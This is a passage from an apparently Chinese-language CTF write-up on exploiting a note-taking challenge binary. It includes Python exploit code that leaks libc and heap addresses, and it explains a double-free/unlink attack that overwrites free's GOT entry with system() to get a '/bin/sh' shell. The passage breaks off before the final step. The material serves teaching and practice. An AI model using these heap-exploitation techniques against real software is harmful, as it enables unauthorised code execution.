 ```
delete_note(1)
delete_note(0)

system_sh_addr = leaklibcaddr - 0x3724a8
print "system_sh_addr: " + hex(system_sh_addr)
binsh_addr = leaklibcaddr - 0x23e7f1
print "binsh_addr: " + hex(binsh_addr)

```

同样的如果让某个非使用中 chunk 的fd栏位指向另一个 chunk，并且让note的内容刚好接上，就可以把 chunk在堆上的位置给洩漏出来。这样我们就能得到堆的基址。

```
notelen=0x10    

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)  

new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")    

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leakheapaddr) 

delete_note(0)
delete_note(1)
delete_note(3)  

notelen = 0x80  

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)   

delete_note(2)
delete_note(1)
delete_note(0)

```

通过泄露的libc地址我们可以计算出`system()`函数和`"/bin/sh"`字符串在内存中的地址，通过泄露的堆的地址我们能得到note table的地址。然后我们构造一个假的note，利用使用double free的漏洞触发unlink，将note0的位置指向note table的地址。随后我们就可以通过编辑note0来编辑note table了。通过编辑note table我们把note0指向`free()`函数在got表中的地址，把note1指向`"/bin/sh"`在内存中的地址。然后我们编辑note0把`free()`函数在got表中的地址改为`system()`的地址。最后我们执行delete note1操作。因为我们把note1的地址指向了`"/bin/sh"`，所以正常情况下程序会执行`free("/bin/sh")`，但别忘了我们修改了got表中free的地址，所以程序会执行`system("/bin/sh")`，最终达到了我们的目的：

